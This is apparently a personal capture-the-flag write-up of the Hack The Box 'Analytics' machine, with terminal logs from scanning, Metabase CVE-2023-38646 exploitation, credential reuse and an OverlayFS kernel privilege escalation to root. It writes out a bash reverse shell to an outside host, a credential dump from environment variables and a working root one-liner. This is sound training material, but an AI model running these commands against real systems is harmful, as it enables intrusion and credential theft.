

Analytics.
Difficulty: EASY
OS: Linux
Enumeration:
Start with Rustscan and then nmap on the open ports.
m0j0@r1s1n: ~/HTB/retired_boxes/hackthebox_notes/analytics master ⚡
$ rustscan 10.10.11.233 --ulimit 5000 [3:52:04]
.----. .-. .-. .----..---. .----. .---. .--. .-. .-.
| {} }| { } |{ {__ {_ _}{ {__ / ___} / {} \ | `| |
| .-. \| {_} |.-._} } | | .-._} }\ }/ /\ \| |\ |
`-' `-'`-----'`----' `-' `----' `---' `-' `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy :
: https://github.com/RustScan/RustScan :
--------------------------------------
🌍HACK THE PLANET🌍
[~] The config file is expected to be at "/home/m0j0/.config/rustscan/config.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.233:22
Open 10.10.11.233:80
[~] Starting Nmap
[>] The Nmap command to be run is nmap -vvv -p 22,80 10.10.11.233
Starting Nmap 7.80 ( https://nmap.org ) at 2023-10-20 03:54 BST
Initiating Ping Scan at 03:54
Scanning 10.10.11.233 [2 ports]
Completed Ping Scan at 03:54, 0.02s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:54
Completed Parallel DNS resolution of 1 host. at 03:54, 0.02s elapsed
DNS resolution of 1 IPs took 0.02s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 03:54
Scanning 10.10.11.233 [2 ports]
Discovered open port 80/tcp on 10.10.11.233
Discovered open port 22/tcp on 10.10.11.233
Completed Connect Scan at 03:54, 0.02s elapsed (2 total ports)
Nmap scan report for 10.10.11.233
Host is up, received syn-ack (0.020s latency).
Scanned at 2023-10-20 03:54:09 BST for 0s
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack
80/tcp open http syn-ack
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
m0j0@r1s1n: ~/HTB/retired_boxes/hackthebox_notes/analytics master ⚡
$ nmap -p 22,80 -sCV 10.10.11.233 [3:54:09]
Starting Nmap 7.80 ( https://nmap.org ) at 2023-10-20 03:54 BST
Nmap scan report for 10.10.11.233
Host is up (0.020s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.16 seconds
nmap:
m0j0@r1s1n: ~/HTB/retired_boxes/hackthebox_notes/analytics master ⚡
$ nmap -p 22,80 -sCV 10.10.11.233 [3:54:09]
Starting Nmap 7.80 ( https://nmap.org ) at 2023-10-20 03:54 BST
Nmap scan report for 10.10.11.233
Host is up (0.020s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.16 seconds
Ports 22,80 open. I get a domain and a redirect to analytical.htb so will add to hosts file:
sudo echo .10.10.11.233 analytical.htb >> /etc/hosts
The url takes me to:

Potential usernames but I need to enumerate more. Firstly I went to login and got a url in my address bar of a subdomain data.analytical.htb. Visiting it I get Metabase login:

Reading about MetaBase I found this article https://github.com/m3m0o/metabase-pre-auth-rce-poc which talks about a session cookie which I can retrieve:
session-token = "249fa03d-fd94-4d5b-b94f-b4ebf3df681f"
Now to read more about how to use it to abuse the login. This CVE-2023-38646 https://github.com/m3m0o/metabase-pre-auth-rce-poc has a python script it looks like I can use for a shell 🙂
m0j0@r1s1n: ~/HTB/retired_boxes/hackthebox_notes/analytics/metabase-pre-auth-rce-poc main
$ python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.17/1234 0>&1" [4:37:25]
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]
[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent
Shell
m0j0@r1s1n: ~/HTB/retired_boxes/hackthebox_notes/analytics/metabase-pre-auth-rce-poc main
$ rlwrap nc -nlvp 1234 [4:36:11]
Listening on 0.0.0.0 1234
ls
Connection received on 10.10.11.233 54914
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
a01b8cd25cb0:/$
Now to break out of the container. Linpeas did not show much but I wonder what the environment is like, let me check:
printenv
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=a01b8cd25cb0
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
And it looks like creds. I wonder have they been re-used let me try ssh:
Boom 😀
m0j0@r1s1n: ~/HTB/retired_boxes/hackthebox_notes/analytics master ⚡
$ ssh metalytics@10.10.11.233 [4:43:42]
metalytics@10.10.11.233's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
System information as of Fri Oct 20 03:44:13 AM UTC 2023
System load: 0.0732421875
Usage of /: 94.8% of 7.78GB
Memory usage: 30%
Swap usage: 0%
Processes: 155
Users logged in: 0
IPv4 address for docker0: 172.17.0.1
IPv4 address for eth0: 10.10.11.233
IPv6 address for eth0: dead:beef::250:56ff:feb9:8f4a
=> / is using 94.8% of 7.78GB
Expanded Security Maintenance for Applications is not enabled.
0 updates can be applied immediately.
Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
Last login: Thu Oct 19 22:57:37 2023 from 10.10.14.24
metalytics@analytics:~$ id
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
User is got 🙂
metalytics@analytics:~$ cat user.txt
1c5f4d6127f570eb24e7e75886b96fec
Privilege Escalation:
Linpeas is not giving away too much so I will manually enumerate but first let me try
https://www.kali.org/tools/linux-exploit-suggester/
And it gives some info on the kernel etc:
Kernel version: 6.2.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: 22.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS
I am on Ubuntu and I read about kernel exploits recently, let me try and find interesting articles or PoC’s like this
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629
metalytics@analytics:/tmp$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash")'
root@analytics:/tmp# cat /root/root.txt
9218fd81f31cd308b6214b43c9820dfe
I got root, That was easy :)